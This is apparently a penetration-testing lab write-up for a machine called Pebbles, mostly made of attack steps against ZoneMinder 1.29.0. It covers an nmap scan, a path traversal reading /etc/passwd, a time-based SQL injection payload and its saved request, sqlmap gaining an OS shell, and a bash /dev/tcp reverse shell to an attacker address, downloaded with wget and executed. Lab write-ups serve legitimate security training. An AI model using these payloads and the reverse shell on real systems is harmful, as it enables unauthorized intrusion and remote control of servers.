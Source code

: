 # Pebbles

### Enumeration

```
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Pebbles
|_http-favicon: Unknown favicon MD5: 7EC7ACEA6BB719ECE5FCE0009B57206B
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

ZoneMinder Console - Running - default v1.29.0

[https://vulners.com/packetstorm/PACKETSTORM:140927](https://vulners.com/packetstorm/PACKETSTORM:140927)

```
/zm/index.php?view=file&path=/../../../../../etc/passwd

root:x:0:0:root:/root:/bin/bash
sally:x:1000:1000:Sally,,,:/home/sally:/bin/bash
```

[https://www.exploit-db.com/exploits/41239](https://www.exploit-db.com/exploits/41239)

```
2)SQL Injection
Example Url:http://192.168.241.131/zm/index.php
Parameter: limit (POST)
    Type: stacked queries
    Title: MySQL > 5.0.11 stacked queries (SELECT - comment)
    Payload: view=request&request=log&task=query&limit=100;(SELECT *
FROM (SELECT(SLEEP(5)))OQkj)#&minTime=1466674406.084434
Easy exploitable using sqlmap.
```

```
POST /zm/ HTTP/1.1
Host: 192.168.134.52
Content-Length: 73
Content-type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: zmSkin=classic; zmCSS=classic; ZMSESSID=ptbdk29oqfq3bk3cu8utbhsbm0
Connection: close 

view=request&request=log&task=query&limit=100&minTime=1466674406.084434


```

Saved as sqli.req

### Access

```
$ sqlmap -r sqli.req -p limit --dbms mysql --os-shell --technique S

S: Stacked queries

what is the back-end database management system architecture?
[1] 32-bit (default)
[2] 64-bit
> 2
os-shell>
```

Getting reverse shell

[https://www.revshells.com/](https://www.revshells.com) - Bash 196 - 443 port - Reverse Shell

```
shell---
0<&196;exec 196<>/dev/tcp/192.168.49.134/3305; /bin/bash <&196 >&196 2>&196

os-shell> wget http://192.168.49.134/shell
os-shell> bash shell
```
